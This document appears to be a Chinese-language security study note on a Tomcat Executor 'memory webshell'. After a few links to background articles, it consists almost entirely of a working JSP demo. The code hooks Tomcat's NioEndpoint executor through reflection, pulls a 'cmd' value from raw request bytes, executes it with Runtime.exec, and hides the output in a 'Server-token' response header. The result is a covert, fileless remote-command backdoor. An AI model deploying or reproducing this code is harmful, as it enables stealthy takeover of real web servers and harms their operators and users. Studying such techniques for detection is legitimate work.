

### 知识储备链接

可以先看看我的tomcat基础知识中的EndPoint的源码分析

https://www.freebuf.com/vuls/344793.html

### 文章分析链接

https://www.freebuf.com/vuls/344812.html

https://mp.weixin.qq.com/s/uHxQf86zHJvg9frTbjdIdA

https://xz.aliyun.com/t/11613（进阶分析）（待看）

## demo

```jsp
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.util.concurrent.RejectedExecutionHandler" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException e) {
            }
            clazz = clazz.getSuperclass();
        }
        return null;
    }


    public Object getStandardService() {
        Thread[] threads = (Thread[]) this.getField(Thread.currentThread().getThreadGroup(), "threads");
        for (Thread thread : threads) {
            if (thread == null) {
                continue;
            }
            if ((thread.getName().contains("Acceptor")) && (thread.getName().contains("http"))) {
                Object target = this.getField(thread, "target");
                Object jioEndPoint = null;
                try {
                    jioEndPoint = getField(target, "this$0");
                } catch (Exception e) {
                }
                if (jioEndPoint == null) {
                    try {
                        jioEndPoint = getField(target, "endpoint");
                        return jioEndPoint;
                    } catch (Exception e) {
                        new Object();
                    }
                } else {
                    return jioEndPoint;
                }
            }

        }
        return new Object();
    }

    public class threadexcutor extends ThreadPoolExecutor {

        public threadexcutor(int corePoolSize, int maximumPoolSize, long keepAliveTime, TimeUnit unit, BlockingQueue<Runnable> workQueue, ThreadFactory threadFactory, RejectedExecutionHandler handler) {
            super(corePoolSize, maximumPoolSize, keepAliveTime, unit, workQueue, threadFactory, handler);
        }

        public String getRequest() {
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {


                                    //Object[] objects = (Object[]) getField(getField(getField(target, "this$0"), "nioChannels"), "stack");

                                    Object[] objects = (Object[]) getField(getField(getField(target, "endpoint"), "nioChannels"), "stack");
                                    ByteBuffer heapByteBuffer = (ByteBuffer) getField(getField(objects[0], "appReadBufHandler"), "byteBuffer");
                                    String a = new String(heapByteBuffer.array(), "UTF-8");

                                    if (a.indexOf("cmd") > -1) {
                                        System.out.println(a.indexOf("cmd"));
                                        System.out.println(a.indexOf("\r", a.indexOf("cmd")) - 1);
                                        String b = a.substring(a.indexOf("cmd") + "cmd".length() + 1, a.indexOf("\r", a.indexOf("cmd")) - 1);
                                        return b;
                                    }

                                } catch (Exception var11) {
                                    System.out.println(var11);
                                    continue;
                                }


                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
            return new String();
        }


        public void getResponse(byte[] res) {
            System.out.println(1);
            try {
                Thread[] threads = (Thread[]) ((Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads"));

                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        System.out.println("res:"+new String(res, "UTF-8"));
                                        response.addHeader("Server-token", new String(res, "UTF-8"));
                                    }
                                } catch (Exception var11) {
                                    continue;
                                }

                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }


        @Override
        public void execute(Runnable command) {
//      System.out.println("123");
            String cmd = getRequest();
            System.out.println("cmd"+cmd);
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                throw new RuntimeException(e);
            }

            if (cmd.length() > 1) {
                try {
                    Runtime rt = Runtime.getRuntime();
                    Process process = rt.exec(cmd);
                    java.io.InputStream in = process.getInputStream();

                    java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
                    java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
                    String s = "";
                    String tmp = "";
                    while ((tmp = stdInput.readLine()) != null) {
                        s += tmp;
                    }
                    if (s != "") {
                        byte[] res = s.getBytes(StandardCharsets.UTF_8);
                        getResponse(res);
                    }


                } catch (IOException e) {
                    e.printStackTrace();
                }
            }


            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }

    }

%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

截图：




